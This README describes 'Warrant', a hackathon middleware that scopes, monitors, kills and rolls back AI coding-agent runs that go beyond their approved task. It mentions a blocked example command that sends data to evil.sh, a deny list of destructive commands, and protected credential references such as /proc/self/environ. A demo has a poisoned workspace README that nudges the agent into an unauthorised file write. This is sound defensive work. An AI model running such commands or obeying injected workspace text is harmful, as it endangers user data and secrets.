

# Warrant — Track C: Kill Switch

**TikTok TechJam 2026 · Agent Launchpad middleware**

> Warrant does not judge whether an action is dangerous in the abstract — it
> judges whether **this run's task authorised it**.

Warrant is a Kill Switch for AI Agents, built on the Volc Agent Launchpad Starter
Kit. It compiles every task into a machine-checkable **execution warrant**, has a
human approve it, enforces it against the live Codex event stream inside the
Runtime path, and **kills the run and rolls the workspace back** the moment an
Agent acts outside what its task authorised.

**The primary judging path is the real Local Runtime + Codex + Ark**
(`npm run demo:real`): a real Agent, nudged by a poisoned workspace, has its
out-of-scope write to `src/parser.ts` killed and rolled back — scope is fixed by
the deterministic local compiler (`tests/**`), and Ark only runs the Agent.

See **[docs/SECURITY_MODEL.md](docs/SECURITY_MODEL.md)** for the exact prevention / detection / recovery boundary and known limitations.

The offline replay (`npm run demo` / `npm run demo:web`) is the **deterministic
evidence and on-stage fallback**: the same enforcement path with no Ark, no Dify,
no external model, no API key, no Docker, no network.

The Starter Kit's Agent CRUD, Playground, lifecycle actions, persistence, and
model execution are unchanged and still work.

---

## The problem this middleware solves

Traditional middleware cannot protect an Agent platform, because **the dangerous
thing is not the command — it is the gap between the stated intent and the
executed action.**

```text
Task: "refactor the parser"     →  edit src/parser.ts    is authorised
Task: "add one unit test"       →  edit src/parser.ts    is out of scope
```

RBAC, a WAF, and seccomp all see the same syscall. None of them can express
"this action is unrelated to what the operator asked for". Every individual step
of a hijacked Agent run looks legitimate in isolation; only the relationship to
the original intent reveals the breach. That gap is where prompt injection, goal
hijacking, and silent over-reach live.

Warrant closes that gap by making intent a **first-class, enforceable artifact**.

---

## Design

Four layers. Every enforcement decision runs in the backend/Runtime path — never
in the UI.

### 1. Intent Compiler — before execution

`apps/server/src/warrant/compiler.ts`

Takes the operator's prompt plus the Agent's instructions and compiles them into
a least-privilege envelope via the Ark Responses API:

```jsonc
{
  "summary": "Add or update tests under tests/ and run the suite once.",
  "writePaths": ["tests/**"],
  "commands": ["npm"],
  "denyCommands": ["rm", "dd", "mkfs", "shutdown", "reboot", "chown", "chmod"],
  "networkEgress": false,
  "maxFileWrites": 2,
  "maxCommands": 1
}
```

The model output is parsed tolerantly and validated with zod. **Any failure —
bad JSON, wrong types, timeout, missing Ark key — falls back to a deterministic
least-privilege envelope.** The compiler can never fail open.

### 2. Human approval — the delegation boundary

The run is created with status `awaiting-warrant` and **does not execute**. The
operator reviews the exact scope in the browser and approves or rejects it. The
warrant is scoped, time-bound (30 min TTL), and revocable at any time.

This is the point where a human principal delegates bounded authority to an Agent
principal — rather than the Agent inheriting the operator's full session.

### 3. Conformance Monitor — during execution

`apps/server/src/warrant/monitor.ts` · `policy.ts`

The Starter Kit already parses a live Codex event stream in
`parseCodexEventLine` and keeps only the final message. Warrant
taps that same stream and evaluates every `command_execution`, `file_change`,
and `tool_call` **as it is emitted**, so a violation aborts the container
mid-flight instead of being discovered in a log afterwards.

The policy engine is a pure, deterministic function — no LLM in the hot path:

- **Shell-aware.** A command is split on `&&`, `||`, `;`, `|`, and newlines, and
  every segment is checked independently. `npm test && curl http://evil.sh` is
  blocked on the second segment.
- **Substitution-aware.** `$(...)` and backtick contents are lifted out and
  checked as their own segments.
- **Schema-tolerant event parsing.** Codex reports commands and file changes as
  `item.started` / `item.completed` events; the parser accepts the command as a
  string or an argv array (under `command`, `cmd`, or `parsed_cmd`) and reads
  changed paths from any of `path`, `file_path`, or `absolute_file_path`, so a
  minor change in the Codex event shape cannot silently disable a check.
- **Shell-wrapper transparent.** Codex wraps commands as `bash -lc "<script>"`;
  the wrapper is unwrapped recursively so the real command is evaluated, not the
  `bash` shell it hides behind.
- **Binary resolution.** Env assignments and `sudo` are skipped and directories
  stripped, so `FOO=bar sudo /usr/bin/curl` resolves to `curl`.
- **Deny-first ordering.** Warrant state → explicit deny → secret handling →
  network egress → allow-list → path scope → budgets.
- **Credential protection.** Any reference to `ARK_API_KEY`, `APP_AUTH_TOKEN`,
  `/proc/self/environ`, or a bare environment dump is blocked regardless of the
  allow-list.
- **Workspace containment.** Absolute paths and `..` traversal are rejected
  before glob matching.

### 4. Containment and recovery — after a violation

`apps/server/src/warrant/snapshot.ts`

The workspace is snapshotted with a SHA-256 digest before each run. On a
violation the platform kills the Runtime container, restores the workspace, and
re-computes the digest to **prove** the protected asset is byte-identical to its
pre-run state. The run is recorded as `blocked` with a containment record, and
the Agent returns to `ready` — the platform stays usable.

---

## Architecture



The trust boundary sits at the Runtime container edge. Everything the Agent
influences — its commands, its file writes, its tool calls — is untrusted input
that must cross the Conformance Monitor before it is allowed to continue.

---

## Demo: one task, three acts

All three acts use the **same benign task** — the operator never types an attack.
The difference is the workspace.

> Add one unit test for the parser and summarise what you changed.

1. **Safe Run** (clean workspace) — the Agent writes `tests/parser.test.ts` and
   the run completes. The warrant only authorised `tests/**`.
2. **Contained Run** (poisoned workspace, same task) — the workspace README nudges
   the Agent to also edit the protected `src/parser.ts`. That write is **blocked
   by `scope.writePaths`**, the run is killed, and the workspace is rolled back.
   The Recovery Proof shows the final state was **restored byte-for-byte** and the `src/parser.ts`
   before/after digest matches.
3. **Recovery Run** (clean workspace, same task) — the run completes and the Agent
   is back to `ready`.

No network request, credential, or external host is involved.

## Run the demo without a model

Fully offline — no Ark key, no Docker, no Codex CLI, no network.

Headless evidence (asserts every invariant, ~10s):

```bash
npm run demo
```

Live in the browser (Offline Evidence Mode):

```bash
npm run demo:web
```

This seeds two Agents — `Parser Bot` (clean) and `Parser Bot (compromised)`
(poisoned) — and serves the UI at <http://localhost:3000>. Run the same task on
each: clean completes, poisoned is contained with a Recovery Proof. See
[demo/README.md](demo/README.md) for the three-act walkthrough.

**One limitation.** Enforcement is containment, not syscall interception: a
`command_execution` is judged at `item.started` and the container is killed on
violation, while a `file_change` is reported after it lands and is undone by
rollback — the protected asset is proven unchanged by digest, but recovery is
revert, not prevention.

**One next step.** Wire the warrant into Codex's own approval hook so an
out-of-scope action is refused *before* it executes, turning containment into
true pre-execution prevention.

## Quick start

Requirements: Node.js 22+, npm 10+, one of Docker / Colima / Podman, and an Ark
API key with a Responses-capable endpoint.

```bash
ARK_API_KEY=your-ark-api-key ARK_MODEL=ep-your-endpoint-id npm run poc
```

Open <http://localhost:3000>. Codex CLI ships inside the Runtime image and is
not required on the host.

> `ARK_API_KEY` must be an **Ark model API key**, not a BytePlus account AK/SK.
> `ARK_MODEL` is normally an endpoint ID beginning with `ep-`. A wrong
> credential returns 401 from the Ark Responses API.

### Warrant configuration

| Variable | Default | Purpose |
| --- | --- | --- |
| `WARRANT_AUTO_APPROVE` | `false` | Approve compiled warrants automatically. Set `true` to restore the unmediated baseline flow or to run CI. |
| `WARRANT_TRACE_LIMIT` | `5000` | Maximum retained trace spans; older spans are trimmed. |

### API

| Method | Route | Purpose |
| --- | --- | --- |
| `GET` | `/api/runs/:id/trace` | Conformance spans with per-span verdicts. |
| `GET` | `/api/agents/:id/warrants` | Warrant history for an Agent. |
| `GET` | `/api/warrants/:id` | One warrant. |
| `POST` | `/api/warrants/:id/decision` | `{ "approve": boolean }` |
| `POST` | `/api/warrants/:id/revoke` | Revoke and cancel the attached run. |

---

## Validation

```bash
npm run check
```

Runs TypeScript checks, the full test suite, and both production builds.

Automated evidence covers the core policy and containment behaviour rather than
UI rendering:

| Suite | Covers |
| --- | --- |
| `warrant/policy.test.ts` | Warrant state, chained commands, substitutions, credential references, deny-list precedence, path escapes, budgets. |
| `warrant/monitor.test.ts` | Real Codex event shapes, block-on-first-violation, `started`/`completed` de-duplication. |
| `warrant/snapshot.test.ts` | Rollback restores exactly; digest mismatch is detected. |
| `warrant/compiler.test.ts` | Tolerant parsing, schema rejection, fail-closed fallback. |
| `agent-service.test.ts` | End-to-end: approval gate, rejection, revocation, exfiltration blocked → rolled back → Agent still usable, trace names the violated clause. |

The end-to-end tests drive the **real** parser, monitor, policy engine, and
rollback path; only process/container spawning is substituted.

---

## Limitations and residual risk

- **Enforcement is containment, not syscall interception.** Warrant observes
  the Codex event stream: commands are judged at `item.started` and the container
  is killed on violation, but a very fast side effect can land before teardown
  and is then recovered by rollback rather than prevented outright. File writes
  are always caught at report time and undone.
- **The allow-list constrains which programs run, not every effect.** A
  name-based allow-list cannot fully bound an interpreter, so it is backed by
  secret-reference scanning, network-binary denial, inline-eval (`node -e`,
  `python -c`) blocking, and file-write checks that apply no matter which command
  produced the write. A warranted binary can still take a permitted-but-unintended
  action inside its scope.
- **The compiler is advisory, the enforcement is not.** A poorly compiled
  warrant can be too permissive. The human approval step and the deterministic
  fallback floor exist for exactly this reason, and the operator sees the full
  scope before approving.
- **File changes are detected at report time.** Codex reports a `file_change`
  after applying it, so containment for writes is *rollback*, not prevention.
  Command execution is intercepted at `item.started`, before the effect lands.
- **Revocation cancels the run**; it does not retroactively undo already-allowed
  actions in that run.
- **The JSON store is single-process**, inherited from the Starter Kit.
- **An ordinary container is not a hardened multi-tenant boundary.** Warrant
  reduces what a compromised Agent may attempt; it does not replace isolation.
- Trace details are truncated to 400 characters; secrets are never persisted
  because credential-referencing actions are blocked before they execute.

## What was intentionally not built

No foundation-model training, no workflow editor, no production OAuth, no
general-purpose sandbox, no multi-region deployment. ECS deployment is untouched
and optional — local container execution is the judging path.

---

## Starter Kit documentation

Setup, deployment, and baseline platform details are unchanged:

- [Local POC](docs/LOCAL_POC.md)
- [Deployment](docs/DEPLOYMENT.md)
- [Baseline architecture](docs/ARCHITECTURE.md)
- [Security policy](SECURITY.md)

### Docker Compose

```bash
./scripts/bootstrap-local.sh
docker compose up --build
```

### Development

```bash
npm install
cp .env.example .env
npm run dev
```

Web UI on <http://localhost:5173>, API on <http://localhost:3000>.

## License

[MIT](LICENSE)
